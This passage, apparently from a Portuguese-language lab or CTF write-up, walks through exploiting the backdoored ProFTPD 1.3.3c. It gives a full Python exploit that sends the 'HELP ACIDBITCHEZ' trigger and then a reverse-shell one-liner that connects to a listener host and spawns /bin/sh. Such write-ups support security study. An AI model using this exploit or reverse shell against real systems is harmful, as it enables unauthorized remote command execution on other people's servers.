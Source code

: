![](https://cdn-images-1.medium.com/max/2000/1*eLPS4GIp3spM60LhBgdVHQ.png)

Essa versão em específico é maliciosa, pois foi indevidamente modificada por atacantes na distribuição oficial do ProFTPd, deixando uma Backdoor de simples exploração. (Referência: [https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script](https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script))

Podemos construir um código em Python que faça essa exploração, que constitui em, basicamente:

 1. Se conectar ao serviço ProFTPd 1.3.3c

 2. Receber a resposta

 3. Enviar o payload que ativa a Backdoor

 4. Criar shell e conecta-la a algum host ou o próprio host

```python
import socket
from time import sleep
import sys
import subprocess

hostFTPD="127.0.0.1"
portFTPD=2121
hostSH="192.168.15.3"
portSH=16969

sock = socket.socket()
sock.connect((hostFTPD, portFTPD))

resp = sock.recv(1024).decode("utf-8")
print("[~] Ativando o backdoor")
sleep(2)
sock.send("HELP ACIDBITCHEZ\n".encode()) # Payload que ativa a Backdoor
sleep(2)
# Cria e conecta a shell
cmd = 'python -c \'import socket,subprocess,os;sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM);sock.connect(("{}",{}));os.dup2(sock.fileno(),0); os.dup2(sock.fileno(),1); os.dup2(sock.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'\n'.format(hostSH, portSH)
sock.send(cmd.encode())
sock.close()
```
{: file='proftpd_1.3.3c_exploit.py'}

Com o exploit em mãos, basta enviarmos ao servidor pelo FTP.

![](https://cdn-images-1.medium.com/max/2000/1*bQ2UPN5uPt_opGO0sjccvQ.png)

Com isso feito, colocamos uma escuta na porta e no host que definimos no código.

![](https://cdn-images-1.medium.com/max/2000/1*FNyo0AVjSCjQ-0rw0H42Iw.png)

Por fim, executamos o python, e…

![](https://cdn-images-1.medium.com/max/2430/1*rQ1D9v8tw81fsJRQ__gOYA.png)
